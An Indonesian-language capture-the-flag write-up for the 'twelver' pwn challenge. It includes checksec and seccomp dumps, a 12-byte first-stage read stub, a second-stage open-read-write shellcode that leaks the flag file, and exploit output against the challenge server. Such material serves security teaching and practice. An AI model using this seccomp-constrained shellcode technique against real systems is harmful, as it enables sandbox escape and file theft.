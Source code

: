 # twelver


## Analisa


Seperti biasa, kita akan cek konfigurasi program:
```
$ file twelver; checksec twelver
twelver: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=1a304064de9d2f46a004a6001ae4080b914329e2, not stripped
[*] '/home/tempest/projects/cscctf/2019/qual/pwn/twelver/twelver'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Program hanya kurang canary. Program memperbolehkan eksekusi 12 byte shellcode di area rwx, **setelah**:
1. Seccomp diaktifkan
2. Semua register dinullkan kecuali `rip`.


Seccomp rules:
```
$ seccomp-tools dump ./twelver
Shellcode > wtf ?
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
```
Pada dasarnya, seccomp membuat limitasi syscall di level kernel; rules ini hanya memperbolehkan syscall 64-bit **open**, **read**, **write**, **exit**, dan **exit_group**.


## Eksploitasi


Limitasi seccomp dan register membuat eksploitasi menjadi *sedikit lebih* rumit. Mari kita lihat snippet disassembly program:
```
00000000000009a0 <deregister_tm_clones>:
 9a0:	48 8d 3d 69 16 20 00 	lea    rdi,[rip+0x201669]        # 202010 <__TMC_END__>
 ...
```



Program 64-bit memiliki instruksi seperti ini agar dapat mengambil nilai atau pointer dari global variable. Kita akan memasukkan instruksi `lea register, [rip+offset]` ini ke dalam shellcode kita. Berikut shellcodenya:
```
lea rsi, [rip-0x1]
mov dl, 0x7f
syscall
```


Dan kita masih memiliki 1 byte tersisa. Shellcode ini melakukan syscall **read** dengan buffer shellcode kita sebanyak 127 bytes. Kita dapat mengoverwrite instruksi shellcode di atas dengan nopsled, set register `rsp` dengan region shellcode kita, dan melakukan Open Read Write (ORW) untuk mengeluarkan flag. Berikut shellcode untuk stage 2:
```
lea rsp, [rip+0x800]
		
push 0x1010101 ^ 0x6761
xor dword ptr [rsp], 0x1010101
mov rax, 0x6c662f7265766c65
push rax
mov rax, 0x77742f656d6f682f
push rax

mov rdi, rsp
xor edx, edx
xor esi, esi
xor eax, eax
mov al, 2 ; open("/home/twelver/flag",O_RDONLY)
syscall

xchg rax, rdi
mov rsi, rsp
mov dl, 0x70
xor eax, eax ; read(fd,&rsp,0x70)
syscall

xchg rax, rdx
mov rdi, 1
push rdi
pop rax ; write(1,&rsp,read_return_value)
syscall

mov al, 0x3c ; exit(0)
xor edi, edi
syscall
```


Output script:
```
$ python exploit.py go
[*] '/home/tempest/projects/cscctf/2019/qual/pwn/twelver/twelver'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 128.199.101.63 on port 11114: Done
[*] Switching to interactive mode
CCC{L3a_r1p_push_PoP_sy5C4lL_0rW}
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to 128.199.101.63 port 11114
[*] Got EOF while sending in interactive

```
